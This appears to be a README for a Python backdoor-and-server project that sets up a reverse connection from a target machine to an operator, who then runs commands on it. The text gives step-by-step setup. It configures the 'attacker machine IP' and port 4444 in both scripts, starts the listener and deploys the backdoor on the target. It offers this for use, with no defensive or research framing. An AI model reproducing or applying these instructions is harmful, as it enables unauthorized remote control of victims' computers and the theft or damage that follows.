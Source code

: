 This project contains a Python backdoor and server script that work together to establish a remote connection between a target machine and an operator. The backdoor runs on the target, connecting back to the server, which listens for incoming connections. 
Once connected, the server can send commands to the backdoor, which executes them on the target and returns the output.

Instructions:

1. Install Python 3
  
2. Installer termcolor: pip install termcolor

3. Configure the Server
  Open server.py and set:
    IP address: The server’s local or public IP.
    Port: An open TCP port (e.g., 4444).
      Example in code:
        host = "192.168.1.10"  # your attacker machine IP
        port = 4444

4. Configure the Backdoor
   In backdoor.py, set:
    The server IP to point to your attacker machine. The port to match the server port.
      Example:
        server_ip = "192.168.1.10"
        server_port = 4444

5. Run the Server: python3 server.py

6. Deploy the Backdoor
   Run backdoor.py on the target machine:
    python3 backdoor.py


Once it connects, the server will show: [+] Connection established with <target_ip>
